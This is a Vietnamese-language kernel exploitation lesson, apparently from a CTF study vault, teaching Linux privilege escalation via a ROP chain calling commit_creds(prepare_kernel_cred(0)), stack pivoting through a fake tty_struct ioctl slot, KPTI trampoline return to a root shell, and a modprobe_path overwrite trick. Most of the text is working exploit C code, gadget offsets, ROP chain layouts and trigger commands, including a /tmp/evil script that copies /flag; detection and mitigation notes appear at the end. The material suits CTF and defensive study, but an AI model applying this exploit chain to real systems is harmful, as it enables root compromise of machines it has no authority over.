

> **Prerequisites**: [[09-exploit-primitives|09. Exploit Primitives]] · [[11-kaslr-bypass|11. KASLR Bypass]]
> **Objectives**:
> - Hiểu tại sao kernel ROP chain khác với userspace ROP
> - Thực hiện stack pivot từ fake vtable / overwritten return addr
> - Xây dựng ROP chain hoàn chỉnh: `commit_creds(prepare_kernel_cred(0))`
> - Bypass KPTI bằng trampoline gadget để return về userspace an toàn
>
---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Có RIP control (từ UAF fake vtable, stack BOF, hoặc function pointer overwrite)
> - Đã bypass KASLR — biết `kernel_base` để tính địa chỉ gadgets
> - Đã lưu userspace registers trước exploit (`save_state()`)
> - Biết địa chỉ `commit_creds`, `prepare_kernel_cred`, và KPTI trampoline
>
---

## Cơ chế tấn công

![[img-12-rop-kpti-trampoline.svg]]
*Hình 12: Kernel ROP chain — stack layout, execution flow từ RIP hijack đến root shell*

### Tại sao kernel ROP khác userspace ROP

Trong userspace, sau khi ROP chain chạy xong, `ret` về địa chỉ tiếp theo bình thường. Trong kernel, có thêm hai thách thức:

**1. SMEP**: Không thể execute code ở user pages → mọi gadget PHẢI nằm trong kernel text.

**2. KPTI**: Sau khi chạy xong kernel code, muốn return về userspace phải **swap page tables** (CR3 switch). Nếu chỉ dùng `iretq` đơn giản → crash vì page table chưa được restore về user mode.

### Mục tiêu ROP chain — `commit_creds(prepare_kernel_cred(0))`

Đây là cách escalate privilege phổ biến nhất:

```c
// prepare_kernel_cred(0) → tạo một cred struct mới với uid=0 (root)
// commit_creds(root_cred) → gán root cred cho current process

// Equivalent C code (chạy trong kernel context):
struct cred *root_cred = prepare_kernel_cred(NULL);  // NULL = copy init creds
commit_creds(root_cred);
// Sau đây process có uid=0 → root
```

**Truyền arguments trong x86-64 calling convention:**

```text
arg1 → rdi
arg2 → rsi
arg3 → rdx
return value → rax
```

→ Cần gadgets: `pop rdi; ret` để set arg1, và cách chuyển `rax` (kết quả của `prepare_kernel_cred`) vào `rdi` (arg cho `commit_creds`).

### Stack Pivot — Từ RIP Control đến ROP Chain

Khi RIP bị redirect (ví dụ qua fake ops.ioctl của tty_struct), stack hiện tại (RSP) là kernel stack của thread — không có ROP chain của attacker ở đó. Cần **stack pivot**: chuyển RSP về vùng có ROP chain.

Cách thực hiện với fake ops:

```c
// ioctl handler prototype:
// int (*ioctl)(struct tty_struct *tty, unsigned int cmd, unsigned long arg)
//   rdi = tty_struct pointer (attacker-controlled via spray)
//   rsi = cmd (từ ioctl call)
//   rdx = arg (attacker-controlled!)

// Stack pivot gadget dùng rdx:
// "push rdx; xor eax, imm; pop rsp; pop rbp; ret"
// → RSP = arg → attacker đặt &rop_chain vào arg của ioctl()

// Gọi:
ioctl(spray_fd, 0, (unsigned long)&rop_chain);
// → rdx = &rop_chain
// → pivot gadget: RSP = rdx = &rop_chain
// → tiếp tục execute từ rop_chain[0]
```

### Save Userspace Registers — BẮT BUỘC trước exploit

```c
// Phải chạy save_state() TRƯỚC KHI gửi payload!
size_t user_cs, user_ss, user_rflags, user_rsp;

void save_state() {
    asm volatile (
        "movq %%cs,    %0\n"
        "movq %%ss,    %1\n"
        "movq %%rsp,   %3\n"
        "pushfq\n"
        "popq %2\n"
        : "=r"(user_cs), "=r"(user_ss),
          "=r"(user_rflags), "=r"(user_rsp)
        : : "memory"
    );
    printf("[*] Saved: cs=0x%lx ss=0x%lx rsp=0x%lx rflags=0x%lx\n",
           user_cs, user_ss, user_rsp, user_rflags);
}
```

### KPTI Trampoline — Return An toàn về Userspace

Vấn đề: Sau khi `commit_creds` xong, muốn về userspace để chạy `get_shell()`. Lệnh `iretq` thông thường sẽ crash vì KPTI.

Giải pháp: Dùng **`swapgs_restore_regs_and_return_to_usermode`** — một gadget có sẵn trong kernel để xử lý return từ syscall/interrupt, swap page tables, và iretq. Nhưng phải skip phần đầu (pop registers) bằng offset +22:

```bash
# Tìm địa chỉ trampoline:
grep "swapgs_restore_regs_and_return_to_usermode" /proc/kallsyms
# ffffffff81800e10 T swapgs_restore_regs_and_return_to_usermode

# Dùng +22 để skip phần pop registers ở đầu function:
kpti_tramp = 0xffffffff81800e10 + 22
```

---

## Quy trình tấn công

**Môi trường**: Holstein v3 style — UAF + tty_struct spray, KASLR on, SMEP/SMAP on, KPTI on.

**Bước 1 — Setup: save state và tìm địa chỉ**

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <string.h>
#include <stdint.h>
#include <sched.h>

// State
size_t user_cs, user_ss, user_rflags, user_rsp;
int fd, spray_fds[200];
unsigned long kernel_base;

// Save before exploit
void save_state() {
    asm volatile("movq %%cs,%0; movq %%ss,%1; movq %%rsp,%3; pushfq; popq %2"
                 : "=r"(user_cs),"=r"(user_ss),"=r"(user_rflags),"=r"(user_rsp)
                 :: "memory");
}

// Shell function (runs in user context after exploit)
void get_shell() {
    char *argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
}
```

> **Expected**: `save_state()` compile và chạy không error.
>
**Bước 2 — Leak kernel_base qua tty_struct spray**

```c
// (Full flow từ Lesson 06 và 11)
// Sau khi spray và verify magic:
unsigned long ops_leak = *(unsigned long *)(buf + 0x18);
kernel_base = ops_leak - PTMX_OPS_OFFSET;  // thay bằng offset thực từ nm vmlinux
printf("[+] kernel_base = 0x%lx\n", kernel_base);
```

> **Expected**: kernel_base được in ra, aligned 2MB.
>
**Bước 3 — Tính địa chỉ gadgets và functions**

```c
// Từ vmlinux hoặc /proc/kallsyms:
unsigned long prepare_kernel_cred = kernel_base + 0x0a14c0;
unsigned long commit_creds        = kernel_base + 0x0a1420;

// Gadgets (từ ropper -f vmlinux):
unsigned long pop_rdi         = kernel_base + 0x0135738;  // pop rdi; ret
unsigned long xchg_rdi_rax    = kernel_base + 0x0487980;  // xchg rdi,rax; sar bh,0x89; ret
unsigned long stack_pivot     = kernel_base + 0x014fbea;  // push rdx; xor eax,0x41...; pop rsp; pop rbp; ret
unsigned long ret_gadget      = kernel_base + 0x032afea;  // ret (stack alignment)

// KPTI trampoline:
unsigned long kpti_tramp      = kernel_base + 0x800e22;   // swapgs_restore... + 22
```

> **Expected**: Tất cả địa chỉ in ra đều trong range kernel text (0xffffffff8x...).
>
**Bước 4 — Build ROP chain**

```c
unsigned long rop_chain[20];
int idx = 0;

// Alignment nếu cần (stack phải aligned 16 bytes trước call)
rop_chain[idx++] = ret_gadget;               // ret (alignment)

// prepare_kernel_cred(0)
rop_chain[idx++] = pop_rdi;                  // pop rdi; ret
rop_chain[idx++] = 0;                        // rdi = 0 (NULL)
rop_chain[idx++] = prepare_kernel_cred;      // call prepare_kernel_cred(0)
                                             // → rax = root_cred*

// commit_creds(root_cred)
rop_chain[idx++] = xchg_rdi_rax;            // rdi = rax (root_cred*)
rop_chain[idx++] = commit_creds;             // call commit_creds(root_cred)
                                             // → current->cred = root_cred, uid=0

// KPTI bypass: return to userspace
rop_chain[idx++] = kpti_tramp;              // swapgs + restore PT + iretq
rop_chain[idx++] = 0;                       // padding (trampoline internal)
rop_chain[idx++] = 0;                       // padding
rop_chain[idx++] = (unsigned long)get_shell; // user RIP: jump here after iretq
rop_chain[idx++] = user_cs;                 // CS
rop_chain[idx++] = user_rflags;             // RFLAGS
rop_chain[idx++] = user_rsp;               // RSP
rop_chain[idx++] = user_ss;                // SS
```

> **Expected**: ROP chain được fill đúng thứ tự, tổng idx = 14 entries.
>
**Bước 5 — Ghi fake vtable và trigger pivot**

```c
// Đọc tty_struct thực qua UAF
char buf[0x400];
uaf_read(buf, sizeof(buf));

// Ghi stack_pivot gadget vào ioctl slot của fake ops
unsigned long fake_ops[30] = {0};
fake_ops[12] = stack_pivot;   // ioctl handler → stack pivot gadget

// Lưu địa chỉ của fake_ops và rop_chain vào tty_struct
// (Với SMAP bật: fake_ops và rop_chain phải trong kernel heap!)
// (Với SMAP off: có thể đặt ở userspace)

// Overwrite tty_struct.ops pointer trong buf
*(unsigned long *)(buf + 0x18) = (unsigned long)fake_ops;
uaf_write(buf, sizeof(buf));

// Trigger: ioctl với arg = &rop_chain → rdx = &rop_chain → pivot!
for (int i = 0; i < 200; i++) {
    ioctl(spray_fds[i], 0, (unsigned long)rop_chain);
    // Một trong các fd sẽ hit tty_struct bị overwrite → exploit!
}
```

> **Expected output**: Không crash ngay → exploit đang chạy trong kernel → sau đó get_shell() được gọi.
>
**Bước 6 — Verify root**

```c
// Sau khi execve("/bin/sh"):
// Trong shell: id
// uid=0(root) gid=0(root) groups=0(root)
```

> **Expected output**: Shell prompt với uid=0.
>
---

## Biến thể & Bypass

### Dùng modprobe_path thay vì ROP phức tạp

Nếu chỉ có AAW (không cần ROP phức tạp):

```c
// Overwrite modprobe_path → "/tmp/evil"
// Khi kernel cố load module với định dạng không hợp lệ,
// kernel gọi /sbin/modprobe → nhưng modprobe_path đã bị thay → gọi /tmp/evil

unsigned long modprobe_path = kernel_base + MODPROBE_PATH_OFFSET;
const char evil_path[] = "/tmp/evil\x00";
AAW_write(modprobe_path, evil_path, sizeof(evil_path));

// Trigger: tạo file không hợp lệ và thực thi
system("echo -e '\\xff\\xff\\xff\\xff' > /tmp/bogus");
system("chmod +x /tmp/bogus");
system("/tmp/bogus");  // kernel cố load module → gọi /tmp/evil
```

### ROP chain với conditional alignment

```c
// Một số gadgets yêu cầu stack aligned 16 bytes trước call
// Thêm bare "ret" gadget để align:
if ((unsigned long)&rop_chain[current_idx] % 16 != 0) {
    rop_chain[idx++] = ret_gadget;  // alignment pad
}
rop_chain[idx++] = target_function;
```

### SMAP bypass: đặt fake objects vào kernel heap

Với SMAP bật, không thể dùng userspace địa chỉ cho fake_ops hoặc rop_chain. Giải pháp:

```c
// Dùng msg_msg để "ghim" data vào kernel heap
// Gửi msg_msg với body = rop_chain content
msgsnd(qid, &rop_msg, sizeof(rop_msg.mtext), 0);
// → rop_chain bytes nằm trong kernel heap (msg_msg.body)
// Cần thêm info leak để biết địa chỉ của msg_msg trong heap
```

---

## Cây quyết định



---

## Command Cheatsheet

**Tìm gadgets cần thiết**

```bash
# Stack pivot (nhiều variants)
ropper -f vmlinux --search "push rdx; pop rsp"
ropper -f vmlinux --search "xchg rsp, rax"

# pop rdi
ropper -f vmlinux --search "pop rdi; ret"

# xchg rdi, rax
ropper -f vmlinux --search "xchg rdi, rax"

# KPTI trampoline
grep "swapgs_restore_regs_and_return_to_usermode" /proc/kallsyms
# Dùng address + 22
```

**Save state (C)**

```c
void save_state() {
    asm volatile("movq %%cs,%0;movq %%ss,%1;movq %%rsp,%3;pushfq;popq %2"
                 :"=r"(user_cs),"=r"(user_ss),"=r"(user_rflags),"=r"(user_rsp)
                 ::"memory");
}
```

**ROP chain skeleton**

```c
size_t rop[20]; int i = 0;
rop[i++] = ret_gadget;           // align
rop[i++] = pop_rdi;
rop[i++] = 0;
rop[i++] = prepare_kernel_cred;
rop[i++] = xchg_rdi_rax;
rop[i++] = commit_creds;
rop[i++] = kpti_tramp;          // = swapgs_restore... + 22
rop[i++] = 0; rop[i++] = 0;    // padding
rop[i++] = (size_t)get_shell;
rop[i++] = user_cs;
rop[i++] = user_rflags;
rop[i++] = user_rsp;
rop[i++] = user_ss;
```

**Modprobe_path trick (alternative)**

```bash
# Setup
echo -ne "#!/bin/sh\ncp /flag /tmp/f; chmod 777 /tmp/f" > /tmp/evil
chmod +x /tmp/evil

# Trigger (setelah AAW overwrite modprobe_path → "/tmp/evil"):
echo -e '\xff\xff\xff\xff' > /tmp/bogus && chmod +x /tmp/bogus && /tmp/bogus
```

---

## Daily Drill

**Thời gian**: 25–30 phút/ngày trong 14 ngày đầu.

**Drill 1 — ROP chain từ nhớ**
Mục tiêu: Viết đầy đủ 14 entries ROP chain (kể cả KPTI section) không nhìn notes.

```c
// Viết lại toàn bộ rop[] array từ nhớ:
// ret_gadget / pop_rdi / 0 / pkc / xchg / cc / kpti / 0 / 0 / shell / cs / rfl / rsp / ss
```

Luyện cho đến khi: 14 entries gõ ra trong 2 phút.

**Drill 2 — save_state() từ nhớ**
Mục tiêu: Viết save_state() với inline asm chính xác không nhìn cheatsheet.

Luyện cho đến khi: `movq %%cs, %0` và friends thuần thục.

**Drill 3 — Tìm gadgets và verify**
Mục tiêu: Từ vmlinux, tìm 3 gadgets cần thiết và verify bằng objdump.

```bash
ropper -f vmlinux --search "pop rdi; ret"
# Verify: objdump -d vmlinux | grep -A2 "<gadget_addr_hex>:"
```

Luyện cho đến khi: gadget finding → verify workflow dưới 5 phút.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Kernel oops**: Crash với unusual RIP values hoặc RSP values
> **KASAN**: Buffer overflow detection trước khi pivot xảy ra
> **Seccomp violation**: Nếu exploit process bị seccomp filter → SIGKILL trước khi exploit
>
> **Syscall anomaly**: Một process gọi nhiều `ioctl("/dev/ptmx")` bất thường sau chuỗi `open` → heap spray pattern
>
> [!note] Mitigation
> - `CONFIG_CFI_CLANG=y` — Control Flow Integrity: kiểm tra indirect calls chỉ jump đến valid targets
> - `CONFIG_SHADOW_CALL_STACK=y` — Shadow stack để bảo vệ return addresses
> - SMEP/SMAP: enforce từ BIOS/UEFI level không tắt được
> - `CONFIG_RANDOMIZE_BASE=y` + `kptr_restrict=2`: hạn chế leak nguồn
>
---

## Lab Thực hành

| Platform | Challenge | Tại sao phù hợp |
|----------|-----------|----------------|
| pawnyable.cafe | **Holstein v3** | Full ROP chain với KPTI trampoline |
| pawnyable.cafe | **Holstein v4** | ROP với SMAP — fake objects trong kernel heap |
| CTF | **kernel-rop** (pwnable.tw) | Classic kernel ROP challenge, full mitigations |
| HTB | **Hospital** | Real CVE với ROP path (CVE-2023-35001) |

---

## Field Manual Entry

> [!abstract] Kernel ROP Chain — Quick Reference
> **Điều kiện**: RIP control + KASLR bypass + saved user registers
> **Save state**: `asm("movq %%cs,%0;movq %%ss,%1;movq %%rsp,%3;pushfq;popq %2")` — gọi TRƯỚC exploit
> **Chain**: `ret` (align) → `pop rdi; 0` → `prepare_kernel_cred` → `xchg rdi,rax` → `commit_creds` → kpti_tramp+22 → 0,0 → shell,cs,rflags,rsp,ss
> **KPTI tramp**: `grep swapgs_restore /proc/kallsyms` → addr + 22
> **Alt**: AAW → overwrite modprobe_path → "/tmp/evil" → trigger với invalid ELF
> **Ref**: [[12-rop-chains-kernel|12. ROP Chains in Kernel]]
>